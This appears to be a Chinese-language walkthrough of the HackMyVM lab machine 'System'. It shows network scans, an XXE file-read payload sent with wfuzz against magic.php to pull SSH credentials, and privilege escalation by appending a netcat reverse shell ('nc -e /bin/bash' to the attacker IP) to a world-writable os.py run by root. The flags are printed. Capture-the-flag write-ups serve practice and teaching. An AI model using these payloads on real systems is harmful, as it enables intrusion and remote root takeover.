




# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 00:21 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0050s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00030s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.070s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00039s latency).
MAC Address: 08:00:27:FE:54:B2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.49 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.8
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 00:21 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.000074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:FE:54:B2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.95 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.8  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 00:21 EDT
Nmap scan report for 192.168.21.8 (192.168.21.8)
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:FE:54:B2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.77 seconds
```

# 漏洞利用

看一下80端口


目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.8 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.8
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,jpg,png,zip,git,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1094]
/cover.png            (Status: 200) [Size: 15120]
/js                   (Status: 301) [Size: 169] [--> http://192.168.21.8/js/]                                                   
/magic.php            (Status: 200) [Size: 85]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

再看一下刚才页面

```markup
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.8           
<html>
    <head>
        <title>HackMyVM Panel</title>
        <link rel="stylesheet" href="style.css">
        <script type="text/javascript" src="js/jquery.min.js"></script>
        <script type="text/javascript" src="js/jquery.main.js"></script>
    </head>
    <body>
        <div class="main-container"><br><br><br><br>
            <div class="form-container">
                <div class="form-body">
                    <h1 class="title"><strong>HackMyVM Panel</strong></h1><br><br>
                    <div class="the-form">
                        <label for="email">Email</label>
                        <input id="email" name="email" type="email" placeholder="Enter your email">
                        <label for="password">Password</label>
                        <input id="password" name="password" type="password" placeholder="Enter your password">
                        <input type="submit" value="Register" onclick="XMLFunction()">
                    </div>
                </div>
            </div>
        </div><br><br><br>
        <div id="e"></div>
    </body>
</html>
```

/js/jquery.main.js

```markup
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<details>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</details>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('e').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","magic.php",true);
    xmlhttp.send(xml);
};
```

存在xxe漏洞



找到了david用户，尝试获取david的私钥



复制下来进行登录

```markup
┌──(kali㉿kali)-[~]
└─$ chmod 600 id_rsa
┌──(kali㉿kali)-[~]
└─$ ssh david@192.168.21.8 -i id_rsa
The authenticity of host '192.168.21.8 (192.168.21.8)' can't be established.
ED25519 key fingerprint is SHA256:hyaH0n5p7+5xBVQEL/hRIeOVRNWsLv8qjefRknYQi6Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.8' (ED25519) to the list of known hosts.
david@192.168.21.8's password:
```

有密码，在尝试寻找密码
看一下还有什么

```markup
┌──(kali㉿kali)-[~]
└─$ sudo wfuzz -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/david/FUZZ"> ]>
<details><email>&xxe;</email><password>admin</password></details>' --hh 85 http://192.168.21.8/magic.php
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.21.8/magic.php
Total requests: 37050

=====================================================================
ID           Response   Lines    Word       Chars       
=====================================================================

000007083:   200        38 L     122 W      786 Ch      
000017204:   200        27 L     140 W      892 Ch      

Total time: 20.51738
Processed Requests: 37050
Filtered Requests: 37048
Requests/sec.: 1805.785
┌──(kali㉿kali)-[~]
└─$ sed -n '7083p' /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt 
.viminfo
┌──(kali㉿kali)-[~]
└─$ sed -n '17204p' /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt 
.profile
```

看一下有什么内容



查看一下/usr/local/etc/mypass.txt



尝试登录，成功

```markup
┌──(kali㉿kali)-[~]
└─$ ssh david@192.168.21.8 -i id_rsa 
david@192.168.21.8's password: 
Linux system 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr  2 12:42:26 2022 from 192.168.1.5
david@system:~$ 
```

# 提权

user.txt

```markup
david@system:~$ cat user.txt
79f3964a3a0f1a050761017111efffe0
```

看一看有什么

```markup
david@system:~$ sudo -l
-bash: sudo: command not found
david@system:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
david@system:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
david@system:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
david:x:1000:1000::/home/david:/bin/bash
```

没找到什么，把脚本都上传一下，看看能不能找到什么


看一下suid.py

```markup
david@system:~$ cat /opt/suid.py
from os import system
from pathlib import Path

# Reading only first line
try:
    with open('/home/david/cmd.txt', 'r') as f:
        read_only_first_line = f.readline()
    # Write a new file
    with open('/tmp/suid.txt', 'w') as f:
        f.write(f"{read_only_first_line}")
    check = Path('/tmp/suid.txt')
    if check:
        print("File exists")
        try:
            os.system("chmod u+s /bin/bash")
        except NameError:
            print("Done")
    else:
        print("File not exists")
except FileNotFoundError:
    print("File not exists")
```

/opt/suid.py 以 root 权限定时执行。
它会读取 /home/david/cmd.txt 的第一行内容，并写入 /tmp/suid.txt。
然后尝试执行：os.system("chmod u+s /bin/bash")

```markup
david@system:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python39.zip', '/usr/lib/python3.9', '/usr/lib/python3.9/lib-dynload', '/usr/local/lib/python3.9/dist-packages', '/usr/lib/python3/dist-packages']
david@system:~$ ls /usr/lib/python3.9 -l | grep os && grep pathlib
-rw-rw-rw- 1 root root  39063 Apr  2  2022 os.py
-rw-r--r-- 1 root root  21780 Feb 28  2021 _osx_support.py
-rw-r--r-- 1 root root  15627 Feb 28  2021 posixpath.py
```

在os.py后面添加

```markup
import subprocess

def esc():
    subprocess.run(["nc","-e""/bin/bash","192.168.21.10","4444"])

esc()
```

反弹回来了

```markup
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.21.10] from (UNKNOWN) [192.168.21.8] 38934
id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
cat root.txt
3aa26937ecfcc6f2ba466c14c89b92c4
```
